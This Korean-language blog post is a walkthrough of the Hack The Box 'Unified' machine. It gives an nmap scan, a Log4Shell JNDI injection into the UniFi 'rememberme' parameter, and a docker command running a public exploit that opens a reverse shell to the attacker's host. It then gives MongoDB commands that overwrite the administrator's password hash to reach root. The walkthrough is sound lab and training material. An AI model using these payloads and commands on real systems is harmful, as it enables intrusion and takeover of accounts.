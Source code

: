 ```yaml
---
title: "[Hack The Box] Unified 풀이"
categories:
  - Hack-The-Box
tags:
  - penetration-testing
  - Log4j
  - MongoDB
toc: true
toc_sticky: true
toc_label: "Unified 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/hackthebox.jpeg
---
```


💡 Hack-The-Box Unified 풀이 입니다.
{: .notice--warning}

# 문제

![image](https://user-images.githubusercontent.com/33647663/181284596-a76e28bc-e8d6-4758-82df-09c2e53eb367.png)

```s
Attacker(Me) IP : 10.10.16.49
Target IP : 10.129.199.68
```


# Enumeration

![image](https://user-images.githubusercontent.com/33647663/181284731-a998e3bb-6681-41ac-981f-ef33ae121f83.png)

대상 호스트의 ip는 위와 같습니다. 먼저 스캐닝을 통해서 오픈된 서비스를 확인합니다.

```sh
nmap -n -sV -p- --min-rate 3000 10.129.199.68
```

```sh
Nmap scan report for 10.129.199.68
Host is up (0.22s latency).
Not shown: 65498 closed tcp ports (conn-refused), 31 filtered tcp ports (no-response)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
8443/tcp open  ssl/nagios-nsca Nagios NSCA
8843/tcp open  ssl/unknown
8880/tcp open  cddbp-alt?
``` 

nmap 스캔 결과 총 6개의 포트가 open된 것으로 나오며 이 중 8443 포트로 접속하면 다음과 같이 웹사이트가 나옵니다.

![image](https://user-images.githubusercontent.com/33647663/181288114-38a8d2b1-216f-4eee-9c50-5b961ead72cf.png)

unifi 6.4.54 를 키워드로 구글링을 해보면 log4j가 보입니다.

![image](https://user-images.githubusercontent.com/33647663/181288601-f085f9cd-7eff-4448-ae55-547c6b2e1d62.png)

[관련된 블로그](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)를 읽어보니 해당 버전에서 log4j 취약점이 존재하는 것으로 보입니다.


취약점이 발생하는 매개변수는 **rememberme**변수로 해당 변수에 취약점이 발생하는지 payload를 다음과 같이 넣어줍니다. 그 전에 1389포트를 열어놓아야 ldap 요청이 오는지 확인이 가능합니다.

```sh
remember : ${jndi:ldap://(공격자IP):1389/a}
```

![image](https://user-images.githubusercontent.com/33647663/181290535-2a9d7795-fdab-42ba-a7cb-7425e6719ad7.png)

1389포트로 요청이 온 것을 통해서 log4j 취약점이 존재함을 확인할 수 있습니다.

![image](https://user-images.githubusercontent.com/33647663/181290944-a07b9a5b-5f21-451d-80ee-d3383104af69.png)

[log4junifi](https://github.com/puzzlepeaches/Log4jUnifi)에서 익스플로잇 코드를 다운 받아서 다음과 같이 log4j 익스플로잇을 수행할 수 있습니다.

![image](https://user-images.githubusercontent.com/33647663/181292221-ef3ad871-6067-48a3-946e-d32c085e1151.png)

먼저 4444번 포트를 열어놓고, 다음과 같이 명령어를 입력해 주면 4444번 포트로 리버스 쉘이 생성됩니다.

**명령어**
```sh
docker run -it -v $(pwd)/loot:/Log4jUnifi/loot -p 8090:8090 -p 1389:1389 log4junifi -u https://10.129.199.68:8443 -i 10.10.16.49 -p 4444
```


# Privilege Escalation

target machine으로 연결 되었으니, 이제 권한 상승을 위해서 다시 정보를 획득합니다.

![image](https://user-images.githubusercontent.com/33647663/181292854-ac392057-43eb-4f46-bec5-d82a2af4464d.png)

ps 명령어를 통해 실행중인 프로세스를 보니, mongoDB가 27117 포트로 실행중인 것을 볼 수 있습니다.

27117포트로 접속을 시도하면 다음과 같이 접근이 가능합니다.

![image](https://user-images.githubusercontent.com/33647663/181295067-d0a73fcb-ab94-47ec-ba24-5f66ccf23b0c.png)


현재 default로 접속한 db는 test이며, 다른 database 정보를 출력하면 다음과 같습니다.

![image](https://user-images.githubusercontent.com/33647663/181295271-c419d7f9-a9ad-4e13-b528-1762637e00ee.png)

ace 데이터베이스가 unifi에서 사용하는 기본 database로 **use ace**명령어로 해당 db로 접속한 다음, show collections로 컬렉션 정보를 출력하면 여러가지 컬렉션이 나옵니다. 이중 **admin**컬렉션의 정보를 출력해 봅니다.

```python
db.admin.find()           # 그냥 출력
db.admin.find().forEach(printjson) # json 형태로 출력
```

![image](https://user-images.githubusercontent.com/33647663/181296203-f189c057-f245-49aa-952b-770db52803bd.png)

처음 데이터를 보면, **administrator**계정에 대한 정보가 들어있는 것을 알 수 있습니다. 비밀번호가 $6인것으로 보아 SHA-512로 해시되어 있는 것을 알 수 있습니다.

제가 먼저 시도해본 방법은 해당 해시값을 따로 저장해서 john the ripper로 rockyou.txt 사전파일을 통해 알아내는 것을 시도해 보았지만 해당 사전파일에 존재하는 비밀번호는 아닌 것 같았습니다.(5분정도 돌렸는데 못찾음)

그 다음 시도는 administrator 계정의 비밀번호를 바꾸는 것입니다.

먼저 위의 shadow정보와 동일하게 SHA-512로 암호화된 비밀번호를 생성합니다.

```sh
$ mkpasswd -m SHA-512
password : (hackthebox입력)
```

![image](https://user-images.githubusercontent.com/33647663/181297063-71c42e8d-953a-4786-866d-83e3bbb76e4f.png)

이제 이 해시값을 업데이트 문법에 맞도록 넣어줍니다.

```sql
db.admin.update({"_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set : {"x_shadow" : "$6$fv.mBFbjj71bS3JU$vgwWx8jMgP.n8XnqDJ1hzQsbnoB8y5FdoD9OExH4zxU7ls3oJIlrLZiTEMiuWiDueZD/KBjZQzi00mjBpIqTN."}})
```


![image](https://user-images.githubusercontent.com/33647663/181297732-29982418-3bd3-405c-a8fa-9c7efd46211d.png)

제대로 업데이트가 되었는지 확인해 봅니다.

![image](https://user-images.githubusercontent.com/33647663/181298505-815d2d98-b9d4-4c9a-8ed6-a8df4ee9bc7b.png)

성공적으로 업데이트 되었습니다. 이제 **administrator**계정의 비밀번호가 **hackthebox**로 변경되었습니다. 

홈페이지에 다시 들어가서 id/pw를 입력하여 로그인을 시도합니다.

로그인에 성공하면 다음과 같이 대시보드가 나옵니다.

![image](https://user-images.githubusercontent.com/33647663/181299275-9a155ce5-14c2-4b59-96cd-28615d6c70f1.png)

몇가지 기능을 살펴본뒤, ssh 관련된 정보가 보입니다.

![image](https://user-images.githubusercontent.com/33647663/181299436-fc8a491e-edd1-435f-9438-4a34d7508f57.png)

ssh로 root의 비밀번호를 알아냈으므로 이를 이용해서 root로 접속을 합니다.

![image](https://user-images.githubusercontent.com/33647663/181299866-de78f088-4e06-4a8e-b0bf-9cded3c30c79.png)

플래그를 알아내면서 해당 box를 클리어 할 수 있습니다.

